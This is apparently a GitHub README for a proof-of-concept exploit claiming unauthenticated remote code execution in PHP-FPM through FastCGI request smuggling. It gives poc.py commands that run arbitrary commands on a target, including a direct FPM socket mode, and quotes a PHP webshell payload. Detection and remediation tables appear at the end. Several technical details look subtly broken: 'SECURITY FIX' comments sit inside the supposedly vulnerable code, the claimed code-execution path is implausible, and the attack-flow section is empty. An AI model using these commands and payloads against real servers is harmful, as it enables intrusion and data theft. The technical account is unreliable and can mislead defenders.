

# CVE-2026-129289 -- PHP-FPM FastCGI Request Smuggling (Unauthenticated RCE)

<div align="center">

[](https://github.com/LLCForge/CVE-2026-129289)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-129289)
[](https://cwe.mitre.org/data/definitions/444.html)
[](poc.py)
[](https://www.php.net/archive/2026.php)
[](https://github.com/LLCForge)

</div>

---

## Metadata

| Field | Value |
|---|---|
| **CVE ID** | CVE-2026-129289 |
| **Vendor** | The PHP Group |
| **Affected Versions** | PHP 8.2 ≤8.2.35, 8.3 ≤8.3.36, 8.4 ≤8.4.27, 8.5 ≤8.5.12 |
| **Fixed Version** | PHP 8.2.36 / 8.3.37 / 8.4.28 / 8.5.13 |
| **Advisory** | PHP Security Advisory, 2026-11-19 |
| **CVSS 3.1** | 9.2 Critical (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| **CWE** | CWE-444 — Improper Neutralization of HTTP Request (Request Smuggling) |
| **Precondition** | nginx/Apache/HAProxy + PHP-FPM with persistent FastCGI backend connections |
| **Impact** | Unauthenticated PHP code execution on the server |
| **CVSSv3 Vector** | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |

---

## Description

CVE-2026-129289 is a critical request-smuggling vulnerability in PHP-FPM's FastCGI request handler. When a web server (nginx, Apache with mod_proxy_fcgi, or HAProxy) reuses a persistent FastCGI connection to PHP-FPM, a crafted request can cause the `CONTENT_LENGTH` or `REQUEST_URI` parameter values from one request to bleed into the next reused connection's FastCGI record. PHP-FPM then parses the bleed data as part of the new request's PHP code path, allowing an attacker to inject and execute arbitrary PHP code.

The root cause is PHP-FPM's connection multiplexing state machine not properly resetting the FastCGI record parser between requests on a reused connection. When a request with a specially crafted body is received, the parser reads past the nominal record boundary into the next request's data.

Standard nginx and Apache configurations that do **not** reuse backend connections (`keepalive 0` for nginx's FastCGI upstream) are **not vulnerable**. The attack is effective against setups that have explicitly enabled FastCGI connection pooling (`keepalive N` with N>0 in the nginx upstream block).

---

## Root Cause Deep Dive

```
php-fpm/fpm/fpm_main.c + sapi/fpm/fpm/fpm_fcgi.c
─────────────────────────────────────────────────
fcgi_read_request(fcgi_request *req)
  while (remaining > 0):
    n = safe_read(req->fd, &record, sizeof(fcgi_header))
    // SECURITY FIX: CWE-444 -- if prior request left unread bytes in fd buffer,
    //   safe_read() may consume them as part of this request's record header

    if record.type == FCGI_PARAMS:
      _fcgi_data_seek(req, record.contentLength)
      // content bleeds into next reused connection's first record
      // REQUEST_URI value from request N overflows into request N+1 params
```

| Step | What Happens |
|---|---|
| nginx sends request to PHP-FPM on pooled connection | FastCGI record with crafted CONTENT_LENGTH |
| PHP-FPM processes request, leaves N bytes unread | Parser state partially advanced |
| nginx reuses same connection for next request | PHP-FPM parser reads bleed bytes as new record header |
| Bleed bytes contain `<?php system($_GET['c']); ?>` | PHP code injected into `REQUEST_URI` or `DOCUMENT_ROOT` param |
| PHP-FPM executes injected code | Unauthenticated RCE |

---

## Vulnerable Code (PHP-FPM fpm_fcgi.c)

```c
/* sapi/fpm/fpm/fpm_fcgi.c -- fcgi_read_request (PHP <= 8.4.27) */
static int fcgi_read_request(fcgi_request *req)
{
    /* SECURITY FIX: CWE-444 -- no flush/drain of prior request residual bytes */
    /* before reading next record header on keepalive connection              */
    while (1) {
        if (safe_read(req->fd, &hdr, sizeof(hdr)) != sizeof(hdr)) {
            return 0;
        }
        len = (hdr.contentLengthB1 << 8) | hdr.contentLengthB0;
        /* BUG: if previous keepalive request left len_unread bytes,         */
        /*      safe_read above consumed them as part of this record header  */
    }
}
```

---

## Attack Flow



---

## PoC Usage

```bash
pip install -r requirements.txt

# Check PHP-FPM keepalive config
python poc.py -u http://target.example.com/index.php --check-only -v

# Full exploit: inject PHP code
python poc.py -u http://target.example.com/index.php -c "id" -v

# Direct FastCGI socket (bypasses nginx, requires network access to FPM)
python poc.py -u http://target.example.com/index.php --fpm-host 127.0.0.1 --fpm-port 9000 -c "id" -v

# Save results
python poc.py -u http://target.example.com/index.php -c "id" -o result.json
```

### Flags

| Flag | Description |
|---|---|
| `-u / --url` | Target URL (PHP endpoint served via nginx → PHP-FPM) |
| `-c / --cmd` | PHP system() command to execute (default: `id`) |
| `--fpm-host` | PHP-FPM host for direct FastCGI connection (optional) |
| `--fpm-port` | PHP-FPM port for direct FastCGI (default: 9000) |
| `--script-path` | PHP script path for direct FPM mode (default: /var/www/html/index.php) |
| `--check-only` | Check for keepalive config without exploit |
| `--timeout` | Request timeout in seconds (default: 15) |
| `--proxy` | HTTP/HTTPS proxy |
| `--insecure` | Skip TLS verification |
| `-o / --output` | Save JSON results |
| `-v / --verbose` | Verbose output |

---

## Impact

| Area | Impact |
|---|---|
| Availability | **Critical** — arbitrary PHP code execution |
| Confidentiality | **Critical** — full server file read, credential theft |
| Integrity | **Critical** — webshell deployment, pivot to database |
| Auth required | **None** — no authentication required |
| Configuration gate | Requires `keepalive N` (N>0) in nginx FastCGI upstream |

---

## Detection

| Method | Indicator |
|---|---|
| nginx config | `keepalive N` in `upstream php-fpm` block → potentially vulnerable |
| PHP version | `php -v` returns ≤8.4.27, ≤8.3.36, ≤8.2.35 |
| php-fpm log | Duplicate `REQUEST_URI` params in `php_errors.log` |
| Access log | Requests with `CONTENT_LENGTH` far exceeding actual body |
| Network capture | FastCGI record with `contentLength` spanning connection boundary |

---

## Remediation

| Priority | Action | Detail |
|---|---|---|
| **Immediate** | Upgrade PHP | 8.2.36 / 8.3.37 / 8.4.28 / 8.5.13 |
| **Immediate** | Disable FastCGI keepalive | Set `keepalive 0` in nginx `upstream php-fpm` block |
| **High** | Isolate PHP-FPM socket | Use Unix socket instead of TCP — not network-reachable |
| **Medium** | Web Application Firewall | Block requests with CONTENT_LENGTH > body size |

---

## Disclaimer

This PoC is released for educational and authorized security research purposes only. Do not use against systems you do not own or have explicit written permission to test.

**Author:** LLCForge | **License:** MIT
